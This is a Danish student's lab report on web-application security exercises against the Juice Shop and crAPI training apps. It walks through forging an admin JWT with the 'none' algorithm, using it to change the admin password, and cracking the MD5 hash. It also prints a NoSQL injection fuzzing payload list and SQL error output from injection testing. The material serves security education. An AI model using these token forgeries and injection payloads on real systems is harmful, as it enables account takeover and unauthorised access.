


# JWT forsat og fuzzing

!!! note "Praktiske mål"

    - Hver studerende har udført en angreb på autentificering ved at manipulerer en jwt token
    - Hver studerende har anvendt fuzzing teknikken til at opdage en sårbarhed.

!!! note "Læringsmål"

    **Viden**

    - Teorier, metoder og praksis relateret til webapplikationssikkerhed, herunder principper for sikring af API’e
    - Gængse standarder og rammeværk inden for webapplikationssikkerhed
    - Metoder til vurdering og efterprøvning af sikkerhedsmæssige foranstaltninger..

    **Færdigheder**

    - anvende metoder til at identificere og analysere sikkerhedsmæssige svagheder i webapplikationer
    - udarbejde og gennemføre testforløb med henblik på vurdering af implementerede sikkerhedsforanstaltninger.
    - tolke og vurdere testresultater i forhold til kendte sikkerhedsprincipper

    **Kompetencer**

    - gennemføre vurdering af sikkerheden i webapplikationer på baggrund af systematiske test.
    - strukturere egen faglig udvikling inden for området og følge med i nye teknologier og trusselsbilleder

## Opgave - Angreb på Autentificering & Tokens

!!! note "Opgave beskrivelse"

    1. Udfør øvelsen: [Introduction to JWT Tokens](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/crAPI/6_Basic_Token_Attacks.md#-introduction-to-jwt-tokens)
    1. Udfør øvelsen: [Manipulating the JWT payload](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/crAPI/6_Basic_Token_Attacks.md#-manipulating-the-jwt-payload)
    1. Udfør øvelsen: [Basic Attack Against Authentication Tokens in Juice Shop](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/JuiceShop/6_Basic_Token_Attacks.md#-basic-attacks-against-authentication-tokens-in-juice-shop)


Del opgave 1 og 2 blev lavet i [uge 41](../Uge%2041/Uge41.md#opgave-angreb-pa-autentificering-tokens)
Jeg havde dog ikke tid til den sidste opgave.

### Del opgave - Basic Attack Against Authentication Tokens in Juice Shop

???+ note "Opgave beskrivelse"

    Token Validation

    1. Create or reuse a Juice Shop user account.
    1. Authenticate with that user and capture a GET request to /rest/user/whoami (with a 200 OK response, and at JWT token).
    1. Send the request to Burp Repeater.
    1. Inspect the request: note the Authorization token present in both the Header and Cookie.

    We notice that the token are included in both a header, and a cookie, so lets investigate which of the token are actaul used for validation in this path

    1. Modify the token in the Header by appending a character; resend and observe the response.
    1. Modify the token in the Cookie similarly; resend and observe the response.
    1. Try to Remove the Authorization header completely and resend; note if the response is still 200 OK, and what is the response?
    1. which token the does server use for validation on this request path?, and which does it use for autentication?
    1. Change the request back to its original state before moving on.

    JWT Payload Manipulation

    1. Using the JWT Editor tab in Burp Repeater, change the payload:
        - Set email to admin@juice-sh.op
        - Set id to 1 (We know from earlier, that user id's are given sequencelly)
    1. Resend the request with the modified token and observe the status code (likely 304).

    Using Unsigned Tokens

    1. In Burp Repeater’s JWT Editor, click Attack → none signing Algorithm to:
        - Set alg to none in the JWT header
        - Removes the signature entirely, and sets header alg to None (token format: <header>.<payload>.)
    1. Send the unsigned token request and confirm you receive a 200 OK response.
    1. Save this unsigned token admin for subsequent steps.

    Privilege Escalation: Changing Admin Password

    1. Capture a password change request and send it to Repeater.
    1. Replace the token in the Authorization header and Cookie with the unsigned admin token.
    1. Send the request and confirm a 200 OK response.
    1. Extract the MD5 hashed password from the response, crack it (e.g., crackstation.net), and verify it matches your chosen password.
    1. Log in as the Juice Shop administrator using the new password.

Jeg opfanger en `GET` request til `/rest/user/whoami` hvor der både bliver brugt en token både i headeren og cookie'en.
Jeg prøver at finde ud af hvilken en af dem der skal bruges til godkendelsen.
Når jeg ændre i den token i Authorization headeren modtager jeg stadig en `200 OK` tilbage, hvilket får mig til at tænke at siden kun bruger cookie token til at godkende med.

Ved at lave samme ændring i den token som ligger i cookie headeren, modtager jeg en `302 Not Modified` tilbage.

Jeg prøver at fjerne Authorization headeren helt, for at se hvad der vil ske. Før gav den noget JSON data tilbage med noget info om brugeren som logger ind.


Efter at fjerne Authorization headeren modtager jeg stadig en `200 OK` men selve message body er væk


Det vil sige at serveren bruge Authorization headeren til at validere at man er den bruger man er, og Cookie headeren bruger den til autentication.

Jeg vil se om jeg kan manipulere med den token for at logge ind som en anden bruger.

Jeg prøver at ændre det payload som den token inde holder, ved at sette `ID` til 1 da jeg fra tideligere opgaver i uge 41 ved at det `ID` bliver inkrementeret med 1 for hver nye bruger. Jeg bruger så denne mail `admin@juice-sh.op` fra en admin bruger, som man nemt kan finde i reviews på produkter. På billedet her under kan det ses at jeg har ændret de nøvnte værdier inde i den decoded payload. 


Derefter regenereret jeg den token og brugte den i både Cookie og Authorization headeren. Jeg fik et `302 Not Modified` responce tilbage.

Jeg vil prøve at et ret an almindeligt angreb mod tokens nemlig et "none signing Algorithm attack" Det setter `alg` i token headeren til none, og fjerner signaturen helt.

Dette giver mig et `200 OK`, som kan ses på billedet under.


Nu da jeg har en token som virker og kan give mig adgang til andres kontoer, vil jeg prøve at bruge den nye unsigned token til at ændre admin brugerens password. TIl det opfanger jeg et password reset request. Jeg vil så sende den til Caidos replay og ændre den brugte token for min bruger A til den fabrikerede token for admin brugeren.

`GET /rest/user/change-password?current=Usera1234!&new=admin&repeat=admin HTTP/1.1` Jeg ændre i parametrene så det nye password for admin brugeren bliver `admin`


Efter at sende den nye password reset request kommer der en `200 OK` tilbage og i dens message body som er i JSON format bliver det nye password faktisk vist hashet med MD5 algoritmen.

Jeg tjekker med [crackstation] at det password hash faktisk er det som jeg ville have det til at være.



På billedet her kan det ses at det hash matcher det valgte `admin`

Jeg kan nu også logge ind som admin brugeren med det nye password.



## Opgave - Opdage sårbarheder, med fuzz input

!!! note "Opgave beskrivelse"

    - Udfør øvelsen [Discovering possible sql injection vulnerability](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/crAPI/7_Fuzzing_input.md#%EF%B8%8F%E2%80%8D%EF%B8%8F-discovering-sql-injection-with-fuzzing)
    - Udfør øvelsen [Discovering NoSQL Injection with Fuzzing](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/crAPI/7_Fuzzing_input.md#-discovering-nosql-injection-with-fuzzing)
    - Udfør øvelsen [Discovering possible Juice shop SQL injection vulnerability with fuzzing](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/JuiceShop/7_Fuzzing_input.md#discovering-possible-juice-shop-sql-injection-vulnerability-with-fuzzing)

### Del opgave - Discovering possible sql injection vulnerability

!!! note "Opgave beskrivelse"

    1. In Burp Suite, capture a coupon validation request.
    1. Send the request to Intruder.
    1. Highlight the value of coupon and mark it as the payload position.
    1. Use the wordlist Generic-SQLI from Seclists as payload.
        - Example path in Kali Linux: /usr/share/seclists/Fuzzing/Generic-SQLi.txt
    1. Run the attack.
    1. Observe the responses:
        - What are the baseline status codes and content lengths?
        - Which responses differ from the baseline?


Efter at prøve at tilføje en coupon med en fejl ser jeg at baseline reponce length er 390.
Efter at bruge Caidos Automate med filen Generic-SQLi.txt få jeg føægende responce lengths:
- 385: som giver `500 Internal Server Error`
- 444: som giver `422 Unprocessable Entity`
- 445: som giver `422 Unprocessable Entity`

Det virker ikke som om det bruger en SQl database. Derfor kunne det være en noSQL database.

### Del opgave - Discovering NoSQL Injection with Fuzzing

!!! note "Opgve beskrivelse"

    1. Create a small custom wordlist with NoSQL payloads.
    1. Clear the previous payload list in Intruder.
    1. Load your new NoSQL wordlist as the payload.
    1. Run the attack.
    1. Watch for anomalous status codes or unexpected content lengths.

Opgaven har givet denne liste til at fuzze med:
??? note "noSQL Fuzzing list"

    ```txt
    true
    $where: '1 == 1'
    , $where: '1 == 1'
    $where: '1 == 1'
    ', $where: '1 == 1
    1, $where: '1 == 1'
    { $ne: 1 }
    ', $or: [ {}, { 'a':'a
    ' } ], $comment:'successful MongoDB injection'
    db.injection.insert({success:1});
    db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
    || 1==1
    || 1==1//
    || 1==1%00
    }, { password : /.*/ }
    ' && this.password.match(/.*/)//+%00
    ' && this.passwordzz.match(/.*/)//+%00
    '%20%26%26%20this.password.match(/.*/)//+%00
    '%20%26%26%20this.passwordzz.match(/.*/)//+%00
    {$gt: ''}
    [$ne]=1
    ';sleep(5000);
    ';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
    {"username": {"$ne": null}, "password": {"$ne": null}}
    {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
    {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
    {"username": {"$gt":""}, "password": {"$gt":""}}
    {"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
    {"$ne": null}
    ```

Jeg prøver det samme fuzzing angreb nu med en noSQL liste.

Det fandt jeg heller ikke nogle tegn på sårbarheder.

### Del opgave - Discovering possible Juice shop SQL injection vulnerability with fuzzing

!!! note "Opgave beskrivelse"

    1. Capture a Juice Shop authentication request and send it to Intruder.
    1. Use this wordlist to fuzz the password parameter.
    1. Observe the responses. Does any response body contain interesting information?
    1. Reset the password to a static value.
    1. Fuzz the username field with the same wordlist.
    1. Identify responses with HTTP 500 status code that contain notable content.

Efter at fuzze med min SQLi liste hvor jeg har tilføjet `'`, `;`, og `OR 1==1` så går jeg `410` og `500` responces.

Hvis man kigger i dem som kommer tilbage med en `500` så giver den faktisk en den error besked som serveren fejler med.

```json linenums="0"
{
    "error": {
        "message": "Expected ',' or '}' after property value in JSON at position 35 (line 1 column 36)",
        "stack": "SyntaxError: Expected ',' or '}' after property value in JSON at position 35 (line 1 column 36)\n    at JSON.parse (<anonymous>)\n    at jsonParser (/juice-shop/build/server.js:314:33)\n    at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)\n    at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:328:13)\n    at /juice-shop/node_modules/express/lib/router/index.js:286:9\n    at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:346:12)\n    at next (/juice-shop/node_modules/express/lib/router/index.js:280:10)\n    at /juice-shop/node_modules/body-parser/lib/read.js:137:5\n    at AsyncResource.runInAsyncScope (node:async_hooks:214:14)\n    at invokeCallback (/juice-shop/node_modules/raw-body/index.js:238:16)\n    at done (/juice-shop/node_modules/raw-body/index.js:227:7)\n    at IncomingMessage.onEnd (/juice-shop/node_modules/raw-body/index.js:287:7)\n    at IncomingMessage.emit (node:events:518:28)\n    at endReadableNT (node:internal/streams/readable:1698:12)\n    at process.processTicksAndRejections (node:internal/process/task_queues:90:21)"
    }
}
```

Username er giver også alt for meget information i responcen.

```json linenums="0"
{
    "error": {
        "message": "SQLITE_ERROR: unrecognized token: \"21232f297a57a5a743894a0e4a801fc3\"",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:105:5)",
        "name": "SequelizeDatabaseError",
        "parent": {
            "errno": 1,
            "code": "SQLITE_ERROR",
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL"
        },
        "original": {
            "errno": 1,
            "code": "SQLITE_ERROR",
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL",
        "parameters": {}
    }
}
```

Her bliver det klart at web siden bruger SQLlite som database. Man kan se at i dens fejl besked skriver en SQL query som fejler, men den bruger den hashet værdi af det password man setter. Dette viser at der nok er en eller anden form for SLQi sårbarhed.